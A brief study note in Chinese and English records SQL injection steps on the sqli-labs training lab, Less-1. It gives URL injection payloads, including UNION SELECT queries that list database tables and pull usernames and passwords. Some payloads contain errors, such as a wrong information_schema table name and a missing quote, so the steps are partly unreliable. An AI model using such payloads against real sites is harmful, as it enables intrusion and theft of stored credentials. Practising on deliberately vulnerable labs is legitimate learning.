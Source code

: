 # 关于SQL注入  
> 好气，今天才发现学了之后以后也不会干这个  

学习sql注入，我用的是sqli-labs，网上有安装教程，在此不赘述。  

Less-1：  
1.input "?id=1"     no error  
2.input "?id=1'"    error.
analysis: '' 1 ''LIMIT 0,1'.  ' 1' '  错误，说明前面有一个'我们需要闭合它  
3.input "?id=1 and 1=1 --+" no erroe. note the space.  验证成功  
4.利用 order by  
5.查数据库中的表名字 ?id=-3' union select 1,2,group_concat(table_name) from information_schema.table where table_schema='security'--+  
6.查字段 ?id=-3' union select 1,password,username from users where id = 2 --+
